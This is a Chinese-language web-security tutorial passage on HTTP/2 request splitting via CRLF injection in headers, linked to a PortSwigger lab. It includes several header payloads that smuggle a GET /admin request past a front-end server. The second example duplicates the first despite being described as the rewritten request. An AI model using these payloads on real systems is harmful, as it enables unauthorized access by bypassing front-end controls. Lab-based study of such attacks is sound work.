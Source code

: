 ## 请求拆分

### 基本介绍

从上面的响应队列中毒中我们了解到了如何将一个 HTTP 请求拆分成为两个完整的请求，上面的例子拆分发生在消息体内部，但是当使用 HTTP/2 降级时，我们也可以使拆分发生在消息头中，例如：您甚至可以使用 GET 请求。

```c
:method GET
:path   /
:authority  vulnerable-website.com
foo 
bar\r\n
\r\n
GET /admin HTTP/1.1\r\n
Host: vulnerable-website.com
```

### 重写请求

在报头中拆分请求时，我们需要了解前端服务器如何重写请求并在手动添加任何 HTTP/1 报头时考虑这一点，否则其中一个请求可能缺少强制标头，例如：您需要确保后端收到的两个请求都包含 host 头，在降级过程中前端服务器通常会去除:authority 伪标头并将其替换为新的 HTTP/1 主机标头，例如下面的重新请求：

```c
:method GET
:path   /
:authority  vulnerable-website.com
foo 
bar\r\n
\r\n
GET /admin HTTP/1.1\r\n
Host: vulnerable-website.com
```

在重写过程中一些前端服务器会将新的主机头附加到当前头列表的末尾，就 HTTP/2 前端而言是位于在 foo 头之后，需要注意的是请求在后端被拆分的点之后，这意味着第一个请求根本没有 host，而走私的请求有两个，在这种情况下您需要定位注入的 host 头，以便发生分割时它会出现在第一个请求中。

```c
:method GET
:path   /
:authority  vulnerable-website.com
foo 
bar\r\n
Host: vulnerable-website.com\r\n
\r\n
GET /admin HTTP/1.1
```

### 靶场示例

靶场地址：[https://portswigger.net/web-security/request-smuggling/advanced/lab-request-smuggling-h2-request-splitting-via-crlf-injection](https://portswigger.net/web-security/request-smuggling/advanced/lab-request-smuggling-h2-request-splitting-via-crlf-injection "https://portswigger.net/web-security/request-smuggling/advanced/lab-request-smuggling-h2-request-splitting-via-crlf-injection")

